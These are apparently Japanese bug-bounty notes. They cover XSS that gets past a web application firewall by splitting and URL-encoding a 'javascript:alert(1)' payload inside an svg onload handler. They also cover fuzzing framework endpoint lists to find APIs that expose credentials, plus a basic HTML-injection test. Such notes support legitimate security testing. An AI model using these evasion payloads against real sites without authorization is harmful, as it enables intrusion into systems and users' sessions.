 ### XSS

#### WAFバイパス
WAFは「(」と「)」の順序で括弧をキャッチする  
→文字列を複数の部分に分割したり、キーワードを分割したり、文字の順序を変更すればWAFを回避できる  

```
<svg+onload=location='javascript:alert(1)'>

↓これだとひっかかるから改造する

<svg onload=a=')',b='t(1',j='javas',s='cript:aler',location=j+s+b+a>

↓これをエンコードして実行する

%3Csvg%20onload%3Da%3D')'%2Cb%3D't(1'%2Cj%3D'javas'%2Cs%3D'cript%3Aaler'%2Clocation%3Dj%2Bs%2Bb%2Ba%3E

```

### API
各フレームワークにあったエンドポイントリストを使ってファジング→ヒットしたURIにアクセスしてクレデンシャルなデータを保持しているAPIを見つける
Reactであればapp.jsが/に相当するため、setting.jsにアクセスすれな/settingに入れたりする
https://www.bugbountyhunter.com/guides/?type=javascript_files

### HTML反映テスト
シンプルだけど強力
test<h2>test1
